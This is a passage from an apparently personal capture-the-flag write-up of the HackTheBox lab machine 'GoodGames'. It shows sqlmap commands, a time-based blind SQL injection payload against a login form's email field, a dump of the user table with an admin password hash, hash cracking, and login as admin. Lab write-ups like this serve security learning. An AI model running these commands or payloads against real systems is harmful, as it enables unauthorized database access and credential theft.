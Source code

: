 The command I ran was `sqlmap -r request.txt --batch`. The `-r` specifies a request file (the request I intercepted above) and `--batch` just makes it go without asking for user input. I let it run and it came back as vulnerable

```
Parameter: email (POST)                                                                                                                                                                      
    Type: time-based blind                                                                                                                                                                   
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                                 
    Payload: email=test@test.com' AND (SELECT 9842 FROM (SELECT(SLEEP(5)))qyrv) AND 'IOxB'='IOxB&password=test
```

Now I can run `sqlmap -r request.txt --dbs` to view the databases and we can see two information_schema and main. Lets get the tables from "main" by running `sqlmap -r request.txt -D main --tables`. We then can see three tables blog, blog_comments, and user. Finially we can get the data from the user table with `sqlmap -r request.txt -D main -T user --dump`

```
| 1  | admin | admin@goodgames.htb                         | 2b22337f218b2d82dfc3b6f77e7cb8ec 
```

I used crackstion.net to see if the hash has been cracked and it has been

![GoodGames](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/goodgames/b08110960c7142f184c5c28dd93bc590.png)


I can now log in with the creds. From the sqlmap I got a username of "admin" I was able to guess the email address because I found the hostname earlier

![GoodGames](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/goodgames/7a981f768fb44e86906a3243947f2824.png)
